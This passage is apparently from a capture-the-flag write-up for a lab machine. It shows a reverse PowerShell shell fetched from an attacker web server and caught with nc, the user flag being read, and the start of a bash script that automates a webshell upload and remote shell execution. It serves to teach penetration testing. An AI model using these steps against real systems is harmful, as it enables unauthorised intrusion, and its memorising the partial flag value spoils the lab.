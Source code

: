 First the webserver is hit to get `Invoke-PowerShellTcp.ps1`:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.116 - - [14/Jan/2019 09:49:41] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

```

Then `nc` gets the callback:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.116.
Ncat: Connection from 10.10.10.116:49675.
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\SysWOW64\inetsrv>whoami
conceal\destitute

```

From there, grab the user flag, named `proof.txt`:

```

PS C:\users\destitute\desktop> dir

    Directory: C:\users\destitute\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/10/2018     23:58             32 proof.txt

PS C:\users\destitute\desktop> type proof.txt
6E9FDFE0...

```

### Script It

Because the connection sometimes dies, and I like to be able to pick up where I left off, I scripted the shell process. I give a port and my current IP, and it will start the python webserver, upload the webshell over ftp, use curl to trigger the webshell to request my shell, and then kill the webserver. All I have to do is open nc in another window to catch the callback.

```

  1 #!/bin/bash
  2 
  3 function usage {
  4     echo "Usage: $0 [ip] [port] [powershell file]"
  5     echo "Include ip and port for webserver, and path to file to iex on server"
  6     exit
  7 }
  8 
  9 if [ "$#" -ne 3 ]; then
 10     usage
 11 fi;
 12 
 13 ip=$1
 14 port=$2
```